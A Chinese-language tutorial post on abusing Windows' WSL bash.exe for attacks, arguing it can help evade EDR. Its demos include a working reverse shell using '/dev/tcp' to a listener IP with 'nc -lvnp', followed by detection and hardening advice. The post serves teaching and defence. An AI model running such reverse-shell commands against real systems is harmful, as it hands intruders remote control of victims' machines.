





Bash.exe 是如果我們要用 WSL 的主要檔案，

在他為開發者帶來很多便利性的同時，也為攻擊者提供了更多元，更隱蔽的攻擊手法

今天我們就一起來看看這個工具的利用方法吧！

## Bash.exe 介紹

* * *

Bash.exe 是 WSL 的主要進入點，是一個位於 `C:\Windows\System32` 的原生執行檔，

主要功能是啟動一個 Linux 發行版的 Bash Shell，

讓使用者可以直接在 Windows 上執行 Linux 指令

那也因為它有著這些特性，所以也成為了一個可以很好利用的攻擊點：

*   跨越 Linux, Windows 邊界：如果可以拿到 WSL 環境，那我們在攻擊的時候就可以直接用 Linux 工具，不用再額外上傳 Windows 工具上去
*   繞過偵測：大部分的防毒軟體EDR 監控重心是放在 Windows 處理程序跟 API 呼叫上，透過 bash.exe 執行的活動就會有比較大的可能繞過檢查
*   腳本能力：既然是用到了 Bash.exe，就會有很多的 one-liner 可以拿來下載打 Reverse Shell 上去竊取資料

### 常見用法

bash.exe 的語法很直接，可以直接透過 `-c`(command) 來呼叫電腦裡有的 Linux 發行版來執行指令

```bash
bash.exe -c <command>

```

*   \-c：這個參數會讓 bash.exe 直接執行 `<command>`，然後就立刻退出，不會進入 Interactive Shell



## 來看看幾個 Demo 吧

* * *

### Demo 1：本地上執行指令

```powershell
bash.exe -c "ls -la /mnt/c/Windows/System32"

```



這樣就可以列舉目標機器上的一些資訊

```
bash.exe -c "/mnt/c/Windows/System32/calc.exe"

```



### Demo 2：打一個 Reverse Shell 看看

這應該也算是一個殺傷力比較大的攻擊手法，

可以直接拿到對方的 Shell 進行操作，

這次攻擊我們需要兩台機器，

**負責攻擊的 Kali：**

```bash
nc -lvnp 4444

```

**目標主機 Windows：**

```bash
bash.exe -c "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1"

```

拆開來看一下：

*   `bash -i`：啟動一個互動式的 Bash Shell
*   `>& /dev/tcp/192.168.1.100/4444`：將這個 Shell 的標準輸出（stdout）和標準錯誤（stderr）都重導向到一個 TCP 連線
*   `0>&1`：將標準輸入（stdin）也重導向到同一個連線





## 偵測＆防禦建議

* * *

*   **監控 `bash.exe` 的執行**：紀錄並審計 `bash.exe` 的執行事件特別要看他的參數 (`-c` 後面的內容)，如果出現了 `/dev/tcp``curl``wget` 等敏感字串，就需要高度警惕
    
*   **父子行程關係分析**：監控由 `bash.exe` 產生的子行程例如，如果 `bash.exe` 建立了對外的網路連線，或產生了非預期的 Windows 處理程序，就可以當成是可疑的指標
    
*   **停用或限制 WSL**：如果企業環境中並不需要使用 WSL 功能，最安全的作法就是透過群組原則 (Group Policy) 或開啟或關閉 Windows 功能來徹底停用它如果只有特定開發人員需要，可以使用 AppLocker 或其他應用程式白名單軟體，限制只有授權的使用者可以執行 `bash.exe`
    

## 總結！

* * *

相信大家或多或少都有接觸過 WSL 來替代 Linux 使用（雖然有些功能還是不太方便就對了），

Bash.exe 的出現，模糊了 Windows, Linux 之間的界線，

在帶來很多方便性的同時，

也為攻擊者帶來更多攻擊管道跟隱蔽性，

希望這篇文章能帶大家認識一些些關於這個工具的用法，

期待看到更多人有更多新攻擊手法